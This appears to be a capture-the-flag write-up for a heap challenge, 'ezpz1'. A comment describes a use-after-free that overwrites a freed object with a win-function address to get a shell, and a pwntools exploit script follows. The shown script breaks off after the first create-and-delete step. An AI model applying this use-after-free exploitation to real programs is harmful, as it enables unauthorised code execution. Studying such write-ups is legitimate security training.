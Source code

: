 # Hence, solving this challenge becomes quite simple, as I simply have to create and
# delete a clone, and then create a second clone which I will set the value of to
# be the win function's address. Then, when I attempt to view the contents of a clone,
# it will jump to this address and pop a shell.

Script/Command used
------------------
```
PROGNAME = "challenges/./ezpz1"
REMOTEIP = "plsdonthaq.me"
REMOTEPORT = 7001

if args.REMOTE:
    p = remote(REMOTEIP, REMOTEPORT)
    elf = ELF(PROGNAME)
else:
    p = process(PROGNAME)
    elf = p.elf

def menu():
    p.recvuntil("refresh): ")

def create():
    p.sendline("c")
    p.recvuntil("Created new question. ",timeout=0.1)
    index = p.recvline()[-2:-1]
    log.info("Create: {}".format(int(index)))
    menu()
    return index

def delete(index):
    log.info("Delete: {}".format(int(index)))
    p.sendline("d")
    p.recvuntil("question id: ")
    p.sendline(str(index))
    menu()

def setQ(index, name):
    log.info("Set: {} to {}".format(int(index), str(name)))
    p.sendline("s")
    p.recvuntil("question id: ")
    p.sendline(index)
    p.recvuntil("your question: ")
    p.sendline(name)
    menu()

def ask(index):
    log.info("Ask: {}".format(index))
    p.sendline("a")
    p.recvuntil("question id: ")
    p.sendline(str(index))

# First we create and delete a clone.
create()
delete(0)
```